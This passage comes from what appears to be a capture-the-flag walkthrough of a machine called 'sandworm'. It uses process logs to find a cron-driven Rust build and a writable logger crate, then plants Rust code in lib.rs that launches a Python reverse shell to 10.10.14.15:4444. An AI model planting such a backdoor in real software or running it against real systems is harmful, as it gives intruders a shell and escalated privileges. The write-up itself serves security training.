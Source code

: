 ```bash
2023/06/21 09:12:01 CMD: UID=0     PID=25191  | 
2023/06/21 09:12:01 CMD: UID=0     PID=25193  | /bin/sudo -u atlas /usr/bin/cargo run --offline
```
{% endcode %}

We also see that the crate's source codes under `/opt/crates` are overwritten in 10 seconds after the crate is executed.

```bash
2023/06/21 09:10:11 CMD: UID=0     PID=25179  | /bin/bash /root/Cleanup/clean_c.sh 
2023/06/21 09:10:11 CMD: UID=0     PID=25180  | /bin/rm -r /opt/crates 
2023/06/21 09:10:11 CMD: UID=0     PID=25181  | /bin/cp -rp /root/Cleanup/crates /opt/ 
2023/06/21 09:10:11 CMD: UID=0     PID=25182  | /bin/bash /root/Cleanup/clean_c.sh 
2023/06/21 09:12:01 CMD: UID=0     PID=25188  | /usr/sbin/CRON -f -P 
2023/06/21 09:12:01 CMD: UID=0     PID=25187  | /usr/sbin/CRON -f -P 
2023/06/21 09:12:01 CMD: UID=0     PID=25189  | /bin/sh -c sleep 10 && /root/Cleanup/clean_c.sh 
2023/06/21 09:12:01 CMD: UID=0     PID=25190  | sleep 10 
2023/06/21 09:12:01 CMD: UID=0     PID=25191  | 
2023/06/21 09:12:01 CMD: UID=0     PID=25193  | /bin/sudo -u atlas /usr/bin/cargo run --offline
```

We can also find that the credential we found early is put there deliberately.

```bash
2023/06/21 04:15:01 CMD: UID=0     PID=19806  | /bin/cp -p /root/Cleanup/admin.json /home/atlas/.config/httpie/sessions/localhost_5000/  
```

### User atlas

We found that we can modify the content of the source of the crate `logger` which is used in the SUID program `tipnet` owned by the user `atalas`.

```bash
silentobserver@sandworm:~$ ls -l /opt/crates/logger/src/lib.rs 
-rw-rw-r-- 1 atlas silentobserver 732 May  4 17:12 /opt/crates/logger/src/lib.rs
```

So, we shall be able to execute commands as the user `atlas`, if we overwrite the source code `/opt/crates/logger/src/lib.rs` after the script `/root/Cleanup/clean_c.sh` being executed and before the next compilation triggered by CRON.

We insert the following code after the script `/root/Cleanup/clean_c.sh` being executed.

```rust
...
use std::process::Command;
...

pub fn log(user: &str, query: &str, justification: &str) {
    let o = Command::new("python3").args(&["-c", "import socket,pty,os;s=socket.socket();s.connect((\"10.10.14.15\",4444));[os.dup2(s.fileno(),i) for i in range(3)];pty.spawn(\"/bin/bash\");"]).output().expect("none");
    println!("{}", String::from_utf8(o.stdout).unwrap());
...
```
